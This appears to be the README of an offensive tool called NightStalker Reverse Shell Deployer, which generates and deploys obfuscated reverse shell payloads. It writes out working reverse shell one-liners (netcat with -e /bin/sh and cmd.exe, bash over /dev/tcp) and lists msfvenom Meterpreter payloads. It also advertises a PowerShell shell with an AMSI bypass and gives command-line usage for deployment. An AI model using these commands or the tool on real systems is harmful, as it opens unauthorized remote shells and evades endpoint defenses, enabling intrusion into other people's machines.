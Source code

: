 # NightStalker Reverse Shell Deployer

## Overview

The NightStalker Reverse Shell Deployer is a comprehensive tool for generating and deploying reverse shell payloads with built-in obfuscation and multiple deployment methods. It supports various payload types including netcat, Metasploit msfvenom, and script-based payloads.

## Features

- **Multiple Payload Types**: Support for nc, msfvenom, Python, Bash, and PowerShell reverse shells
- **Interactive Deployment**: User-friendly prompts for configuration
- **Obfuscation by Default**: Automatic payload obfuscation enabled by default
- **Multiple Deployment Methods**: Save to file, copy to clipboard, start listener, or all
- **Network Detection**: Automatic local IP detection for convenience
- **Metasploit Integration**: Direct msfvenom integration for advanced payloads

## Supported Payload Types

### 1. Netcat (nc)
- **Linux**: `nc -e /bin/sh <target_ip> <port>`
- **Windows**: `nc.exe -e cmd.exe <target_ip> <port>`
- **Bash**: `bash -i >& /dev/tcp/<target_ip>/<port> 0>&1`
- **Python**: Python-based netcat implementation

### 2. Metasploit (msfvenom)
- **Windows Meterpreter**: `windows/meterpreter/reverse_tcp`
- **Linux Shell**: `linux/x86/shell_reverse_tcp`
- **Custom Payloads**: Any msfvenom-compatible payload
- **Multiple Formats**: exe, dll, shellcode, etc.

### 3. Script-Based Payloads
- **Python**: Full-featured reverse shell with error handling
- **Bash**: Simple bash reverse shell with reconnection
- **PowerShell**: Windows PowerShell reverse shell with AMSI bypass

## Usage

### Command Line Interface

```bash
# Interactive deployment (recommended)
nightstalker reverse-shell deploy

# List available payload types
nightstalker reverse-shell list

# Deploy with specific options
nightstalker reverse-shell deploy --type msfvenom --target-ip 192.168.1.100 --port 4444
```
